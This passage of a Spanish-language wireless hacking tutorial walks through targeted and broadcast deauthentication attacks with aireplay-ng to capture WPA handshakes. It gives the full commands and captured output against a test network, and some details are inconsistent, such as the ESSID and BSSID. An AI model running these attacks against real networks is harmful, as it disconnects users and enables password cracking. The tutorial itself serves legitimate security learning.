 A continuación, enviamos el ataque de deautenticación, que consiste en mandar paquetes de deautenticación al cliente dentro de la red inalámbrica para que este se desconecte y se vuelva a conectar, generando así el handshake.

```bash
[root@arch ~]# sudo aireplay -0 0 -a 15:E7:95:73:D4:90 -c 34:41:5D:46:D1:38 wlan0mon
```
Ahora expliquemos esto. El `-0` indica el tipo de ataque que haremos, o sea, el ataque de deautenticación, y el otro **0** que lo acompaña indica que no queremos que el ataque se detenga hasta que nosotros lo paremos. Normalmente, este parámetro indica la cantidad de paquetes a enviar. Ahora, el `-a` sirve para ingresar el **BSSID** del **AP** y el `-c` indica la dirección **MAC** de la estación (**también llamada cliente**). Y por último, pero no menos importante, nuestra tarjeta de red en modo monitor.

```bash
CH  7 ][ Elapsed: 6 mins ][ 2019-08-08 20:54 ][ WPA handshake: 20:34:FB:B1:C5:53                                         
                                                                                                                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                       
 15:E7:95:73:D4:90  -28 100     3564      684    2   7  180  WPA2 CCMP   PSK  testwifi                                                                                                  
                                                                                                                                                                                       
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probe                                                                                                             
 15:E7:95:73:D4:90  34:41:5D:46:D1:38  -19    0e- 6e     0     2538  EAPOL  testwifi
```

Vemos que en la parte superior derecha aparece algo llamado **WPA handshake**. Esto significa que ya hemos generado el handshake de manera medianamente correcta. Más adelante veremos cómo verificar si el handshake se generó correctamente, pero por ahora podemos gritar victoria. Hemos logrado que el cliente se desconecte a la fuerza, forzándolo a reconectarse y, de esta manera, generando el handshake.

### Ataque de deautenticación global

Bueno, una vez aclarado el ataque de desautenticación dirigido, este nuevo ataque no se aleja mucho del anterior. Nuestra idea con este ataque es poder **desautenticar globalmente**, en pocas palabras, a todos los **clientes**/**estaciones** que se encuentren en un **AP**/**red inalámbrica**, para así tener mayor eficiencia al obtener el **handshake** usando la **Broadcast MAC address**

Es casi igual que el ataque de desautenticación dirigido, solo que esta vez, para realizar el ataque global, debemos especificar la **Broadcast MAC address** como cliente o estación de la propia red. Esta se representa de la siguiente forma: **FF:FF:FF:FF:FF:FF**.

Así obteniendo el handshake:

```bash
[root@arch ~]# sudo aireplay-ng -0 10 --bssid 15:E7:95:73:D4:90 -c FF:FF:FF:FF:FF:FF wlan0mon
21:10:33  Waiting for beacon frame (ESSID: hacklab) on channel 7
Found BSSID "15:E7:95:73:D4:90" to given ESSID "testwifi".
21:10:33  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:34  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:34  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:35  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 1| 0 ACKs]
21:10:36  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:36  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:36  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:37  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 1| 0 ACKs]
21:10:37  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
21:10:38  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 2| 0 ACKs]
```

